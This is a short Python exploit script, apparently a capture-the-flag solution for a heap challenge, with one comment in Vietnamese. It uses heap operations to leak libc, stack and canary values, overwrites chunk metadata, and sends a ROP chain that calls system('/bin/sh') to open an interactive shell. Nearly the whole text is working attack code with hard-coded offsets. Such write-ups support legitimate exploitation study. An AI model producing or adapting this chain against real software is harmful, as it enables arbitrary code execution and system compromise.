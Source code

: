 ```python 
# 0x219c61
p.recvuntil('\n')
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - 0x219c61
print(hex(libc.address))
add(0x60, b'a' * 8)
add(0x60, b'a' * 8)
add(0x60, b'a' * 8)
add(0x60, b'a' * 8)
add(0x60, b'a' * 8)
show()
p.recvuntil('Gift: \n')
stack_leak = int(p.recvline()[:-1], 10)
stack = stack_leak + 0xe0
print(hex(stack))
payload = p64(0) + p64(0) + p64(0) + p64(stack) + p64(0)+ p64(0) + p64(0) + p64(0)+ p64(0) + p64(0)  + p64(0x61)
edit(payload)
delete(20)
add(0x50, b'a'*25)
p.recvuntil(b'a'*24)
canary = u64(p.recv(8)) - 0x61
print(hex(canary))
payload = p64(0) + p64(0) + p64(0) + p64(stack) + p64(0)+ p64(0) + p64(0) + p64(0)+ p64(0) + p64(0)  + p64(0x71)
edit(payload)
delete(4) # vì idx đã lớn hơn 7 nên ta cần free 1 thằng cũ để có malloc tiếp
delete(20)
ret = libc.address + 0x0000000000029cd6
pop_rdi = libc.address + 0x000000000002a3e5
payload = p64(pop_rdi) + p64(next(libc.search(b'/bin/sh'))) 
payload += p64(ret)
payload += p64(libc.sym['system'])
add(0x60, b'a'*24 + p64(canary) + p64(0) + payload)
p.sendlineafter(b'> ', b'5')
p.interactive()

```

